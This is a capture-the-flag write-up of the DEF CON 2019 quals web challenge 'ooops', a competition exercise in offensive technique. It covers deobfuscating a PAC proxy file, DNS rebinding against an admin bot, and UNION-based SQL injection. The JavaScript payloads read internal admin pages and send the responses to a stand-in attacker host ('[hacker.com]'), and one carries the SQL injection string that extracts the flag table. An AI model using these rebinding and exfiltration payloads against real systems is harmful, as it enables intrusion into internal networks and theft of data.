

# Defcon ctf quals 2019 : ooops

**Category:** Web
**Points:** 137
**Solves:** 34
**Description:**

> On our corporate network, the only overflow is the Order of the Overflow. <br/>
> Files: <a href="https://s3.us-east-2.amazonaws.com/oooverflow-challs/b48fb18a0837e8e6840d5101ff44bb9ee5ee1d22846580487ccce756b966f6b2/info.pac">info.pac</a>


## Write-up
### 1. javascript deobfuscate.
Change `eval` to `console.log`.
```js
FindProxyForURL = function(url, host) {
	/* The only 'overflow' that employees can access is the Order of the Overflow. Log in with OnlyOne:Overflow. HTTPS support is coming soon. */ 
	if (shExpMatch(host, 'oooverflow.io')) return 'DIRECT';
	return 'PROXY ooops.quals2019.oooverflow.io:8080';
}
```
now, we can access challenge page !

### 2. DNS Rebinding.
if you send a URL, the bot access to the URL. And you look at the referer of http header, you can see that it starts from the internal IP address. (ex: 10.x.x.x)

I tried DNS rebinding. I could not access the internal page using XHR because of SOP(same origin policy).

> 1. Send my server Address ( ex: `[A.hacker.com]` == my server address )
> 2. Check the bot's connection and referer header(Internal Address).
> 3. Send js Script to bot.
> 4. Change `[A.hacker.com]`'s DNS to Internal Address. ( ex: `[A.hacker.com]` == 10.x.x.x )

- server.py
```python
from flask import Flask, request
import threading
import time

app = Flask(__name__)

@app.route("/")
def hello():
    re = request.headers['Referer']
    print re
    return open('index.html').read()

app.run(host='0.0.0.0', port=5000)
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/1");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```

### 3. SQL Injection.

Now We can see the internal page ! And It looks like a SQL injection !

- response html
```html
<!doctype html>
<html>
<head>
<title>OOOPS &mdash; Evaluate Requests</title>
<link href="/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-ggOyR0iXCbMQv3Xipma34MD+dH/1fQ784/j6cY/iJTQUOhcWr7x9JvoRxT2MZw1T" crossorigin="anonymous"></head>
<body>
<div class="container">
<div class="row">

<!-- Query: select rowid,* from requests where rowid=1; -->

<p>
Request #1 from b&#39;10.255.0.2&#39;.
 Automatically evaluated 
</p>

<a id="lnk" class="btn btn-secondary btn-block btn-lg" href="http://3ccdcab0.0a00061a.rbndr.us:5000">
Visit http://3ccdcab0.0a00061a.rbndr.us:5000
</a>

</div>
</div>
</body>
</html>
```

- index.html
```html
<script>
setTimeout(function() {
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://[A.hacker.com]/admin/view/-1%20union%20select%201,2,3,group_concat(flag),5%20from%20flag");
  xhr.onreadystatechange = function () {
    if (xhr.readyState === 4) {
      var img = new Image();
      img.src = "http://[hacker.com]/res?x=" + btoa(xhr.responseText);
    }
  };
  xhr.send();
}, 10000);
</script>
```



### FLAG
> OOO{C0rporateIns3curity}
